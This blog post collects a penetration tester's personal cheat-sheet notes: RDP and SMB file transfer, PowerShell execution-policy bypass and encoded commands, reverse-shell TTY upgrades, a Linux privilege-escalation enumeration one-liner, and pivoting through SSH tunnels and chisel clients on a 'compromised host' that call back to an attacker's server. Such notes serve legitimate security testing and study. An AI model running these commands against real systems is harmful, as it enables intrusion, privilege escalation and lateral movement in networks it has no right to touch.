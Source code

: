 ## Oops...

New blog post!

Why? I've somehow managed to break my bparrot install on an old laptop...

There are 3 files that I want to keep, so for now they'll live here :)


---

### File 1 - Windows notes


#### RDP from Linux

```
xfreerdp /v:$vip /u:$user /p:$pass /cert:ignore /dynamic-resolution +clipboard
```

#### Transfer over SMB

On Linux
```
sudo -E ~/.local/bin/smbserver.py share $(pwd) -smb2support
```
On Windows
```
copy \\10.10.16.11\share\work.exe
```

#### POWERSHELL Policy Stuff
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

Or 

```
Get-Content -Raw <FILE> | iex
```

or 
```
powershell -EncodedCommand <Base64encodedcommands>
```

---

### File 2 - Low-Hanging Privilege Escalation on Linux


#### Try to Spawn a TTY

```
python -c 'import pty; pty.spawn("/bin/sh")' || python3 -c 'import pty; pty.spawn("/bin/sh")' || /usr/bin/script -qc /bin/sh /dev/null
```

Then type `CTRL+Z` to suspend the process and return to the main shell

Get the number of columns using 

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Which should output something like
```
rows 24
columns 80
```
Return to the reverse shell using
```
stty raw -echo; fg
```

In the reverse shell set the correct number of terminals using

```
stty rows <ROWS> cols <COLUMNS>
```

So in this example
```
stty rows 24 cols 80
```

Then set the terminal using
```
export TERM=xterm-256color
```



#### Tiny privesc check

```
echo "--ID--";id;echo "--ENV--";env;echo "--SUID--";find / -perm -u=s -type f 2>/dev/null; echo "--CAPABILITIES--"; getcap -r / 2>/dev/null; echo "--EXPORTS--"; cat /etc/exports;echo "--CRONTAB--"; cat /etc/crontab;echo "--APP ARMOR ENTRIES--";ls /etc/apparmor.d/; echo "--SUDO--"; sudo -l
```

### File 3 - Simple pivoting commands

#### Portforwarding

##### SSH
```
ssh -Nf -L <local_ip>:<local_port>:<destination_ip>:><remote_port> <user>@<IP>
```
For example to get access to a localhost **only** MySQL database on 10.20.30.40
```
ssh -Nf -L 127.0.0.1:3306:127.0.0.1:3306 victim@10.20.30.40
```
So any time you try to access **your** localhost on port 3306 it will instead go through the SSH tunnel to the SSH host's localhost on port 3306.

The first 127.0.0.1 is not needed, as it's implied. So you could shorten it using this
```
ssh -Nf -L 3306:127.0.0.1:3306 victim@10.20.30.40
```

You also don't need to use the same local port, as the remote port. So instead you could use the 33306 port.
```
ssh -Nf -L 33306:127.0.0.1:3306 victim@10.20.30.40
```

So now any traffic sent over 127.0.0.1:33306 will go through the SSH tunnel to 127.0.0.1:3306

This also doesn't need to be just to 127.0.0.1, so to access resources on an internal network, like an HTTP server with the IP 192.168.20.1, you can use this.
```
ssh -Nf -L 8000:192.168.20.1:80 victim@10.20.30.40
```

So any traffic sent to 127.0.0.1:8000 goes through the SSH tunnel and out to 192.168.20.1:80


##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<LISTENING_IP>:<LISTEN_PORT>:<SEND_IP>:<SEND_PORT>
```

An example to access an internal server on 127.0.0.1:3389 on the compromised host (10.20.30.40) run

Linux host (10.10.10.10)
```
chisel server --port 1234 --reverse
```

Compromised host
```
chisel client 10.10.10.10:1234 R:127.0.0.1:4242:127.0.0.1:3389
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389

#### Proxying

##### SSH
```
ssh -D <proxy_port> -Nf <user>@<victim_ip>
```
For example to setup a proxy on port 6666
```
ssh -D 6666 -Nf victim@10.20.30.40
```
##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse --socks5
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<PROXY_PORT>:SOCKS
```

An example to setup a proxy on port 7676.

Your host (10.10.10.10)
```
chisel server --port 1234 --reverse --socks
```

Compromised host
```
chisel client 10.10.10.10:1234 R:7676:SOCKS
```

##### Using the proxy

Now that we've got a SOCKS proxy setup, (let's just say that it's on port 8080) how do we use it?

###### Proxychains

ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies. [Source](https://github.com/haad/proxychains)

Basically it hooks **LIBC** and forces connections made by **LIBC** to use the proxy.

Usage is pretty easy, albeit slow sometimes...

What I tend to do is copy the /etc/proxychains.conf to the current working directory and editing the last line with this syntax.

```
socks5 127.0.0.1 <PROXY_PORT>
```

So in this example.
```
socks5 127.0.0.1 8080
```
Then to use it, just run
```
proxychains -f ./proxychains.conf <COMMAND>
```
You could also set the `PROXYCHAINS_SOCKS5` environmental variable instead of messing with the config file.

```
PROXYCHAINS_SOCKS5=<PROXY_PORT> proxychains <COMMAND>
```



